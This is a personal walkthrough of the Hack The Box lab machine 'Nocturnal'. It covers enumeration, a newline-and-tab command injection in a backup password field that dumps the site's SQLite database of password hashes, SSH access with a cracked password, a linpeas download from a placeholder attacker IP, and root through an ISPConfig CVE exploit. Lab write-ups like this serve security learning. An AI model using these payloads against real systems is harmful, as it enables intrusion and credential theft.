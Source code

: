 # Nocturnal HTB - My Walkthrough (No External Walkthroughs Used)

## Basic Enumeration

Started with a simple `nmap` scan:

```
nmap -sV -sC --min-rate 500 <ip-address>
```

**Found:**

* `22/tcp` - SSH running on Ubuntu
* `80/tcp` - HTTP, redirects to `nocturnal.htb`

Added the IP and domain to `/etc/hosts`.

Visited `nocturnal.htb` in browser — there was a register and login page. I registered, logged in, and saw a file upload page.

Only file types allowed were `.doc`, `.pdf`, etc. — no `.php`.

## Web Directory Fuzzing

Used `ffuf`:

```
ffuf -u http://nocturnal.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 404
```

Found `admin.php`, but it redirects to login. Tried default creds like `admin`, `root` — nothing worked.

## Subdomain Fuzzing

```
ffuf -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://nocturnal.htb' -H 'Host: FUZZ.nocturnal.htb'
```

Saw all responses return 302 with size 154 — wildcard DNS maybe. So I filtered with `-fs 154`. Got nothing useful.

## File Upload Attempts

Tried uploading `.php` reverse shell with renamed extension like `.php.pdf` — it uploads, but doesn't execute.

Used Burp to intercept upload, tried changing content type to `application/x-php`, or uploading `.php` with `application/pdf`, but still no execution.

When viewing the uploaded file, the app hits `view.php?username=blah&file=php-reverse-shell-edited.php.pdf` — tried path traversal but it checks extensions, so blocked.

## Username Enumeration

Tried finding valid usernames using ffuf:

```
ffuf -w SecLists/Usernames/xato-net-10-million-usernames.txt -u "http://nocturnal.htb/view.php?username=FUZZ&file=dummy.pdf" -H "Cookie: PHPSESSID=<valid-session>" -fs 2985
```

Found valid users:

* `tobias`
* `amanda`
* `admin`

Checked for files under each user — found `privacy.odt` under `amanda` which had a password and a note saying she had access to all services.

## Amanda Access — Backup Feature

Logged in as `amanda`. Found a backup feature that zips everything with a user-supplied password. The entire source code gets zipped.

Found SQLite file at:

```
/var/www/nocturnal_database/nocturnal_database.db
```

Saw that password input in the backup function is sanitized, but URL-encoded newline (%0A) and tab (%09) were allowed.

### Exploit

Used Burp Repeater to send:

```
password=%0Abash%09-c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump"%0A
```

Command being exploited:

```
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

So `%0A` breaks the zip command, and we run our own command via `bash -c`. The `.dump` returns the full DB content including user and admin hashes.

Cracked `tobias`'s hash — password was:

```
[redacted]
```

## SSH Access

SSH'd into the machine using `tobias`'s creds and got the user flag.

## Privilege Escalation

Uploaded and ran `linpeas.sh` via:

```
wget http://<attacker-ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Checked all the red/highlighted stuff:

* SUID binaries
* CVE-2021-3156 (Baron Samedit)
* CVE-2021-3560 (polkit)
* Sendmail-related stuff

None of these worked.

Then noticed something I had missed — port `8080` was open.

## ISPConfig Exploit

Visited `http://localhost:8080` (via SSH forwarding or browser-based tunnel) and saw ISPConfig panel — version 3.2.10p1.

Vulnerable to CVE-2023-46818.

Googled and found a Python PoC exploit. Transferred it to the target and ran it. Got root shell and the root flag.

Rooted. ✅
